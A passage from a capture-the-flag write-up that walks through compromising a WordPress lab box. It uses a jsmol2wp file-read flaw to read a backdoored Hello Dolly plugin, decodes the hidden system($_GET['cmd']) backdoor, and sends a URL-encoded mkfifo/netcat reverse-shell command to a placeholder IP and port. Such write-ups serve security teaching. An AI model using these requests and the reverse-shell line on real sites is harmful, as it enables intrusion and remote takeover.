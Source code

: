 ***

![](gitbook/cybersecurity/images/Pasted%20image%2020250127160833.png)

We got access to the WordPress panel, let's look around for anything that could get as a shell:

![](gitbook/cybersecurity/images/Pasted%20image%2020250127160915.png)

If we go to `pages`, we can see something called `Webmaster Tasks`, if we check the file, we can find the following:

![](gitbook/cybersecurity/images/Pasted%20image%2020250127160952.png)

Most important thing would be the first thing on the list, which talks about a backdoor on the `Hello Dolly` plugin, using the same PoC from earlier, we can make a request to:

```
http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-content/plugins/hello.php
```

And view the contents of the plugin:

![](gitbook/cybersecurity/images/Pasted%20image%2020250127161117.png)

We can see the following line on the code, let's decode the base64:

![](gitbook/cybersecurity/images/Pasted%20image%2020250127161206.png)

We got `if (isset($_GET["\143\155\x64"])) { system($_GET["\143\x6d\144"]); }` , we can decode the variable names using:

`php -r 'echo "\143\155\x64" . ":" . "\143\x6d\144";'`

![](gitbook/cybersecurity/images/Pasted%20image%2020250127161313.png)

We got `cmd`, let's breakdown the functionality of the backdoor:

```ad-summary
1. It decodes the `base64` string, which brings up the code we found.
2. It executes the code using the `eval()` function.
3. The decoded code runs what's been passed using `cmd` `GET` parameter using `system` function.
```

We can go to the dashboard and we can check that the plugin is running there:

![](gitbook/cybersecurity/images/Pasted%20image%2020250127161615.png)

So, we could send a decoded reverse shell in the following way, we would need to visit this URL:

`http://www.smol.thm/wp-admin/?cmd=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fbash%20-i%202%3E%261%7Cnc%20IP%20PORT%20%3E%2Ftmp%2Ff`

![](gitbook/cybersecurity/images/Pasted%20image%2020250127161756.png)

As we can see, we got a shell, let's make it \[\[CYBERSECURITY/Commands/Shell Tricks/STABLE SHELL.md|stable]] ![](gitbook/cybersecurity/images/Pasted%20image%2020250127161921.png)
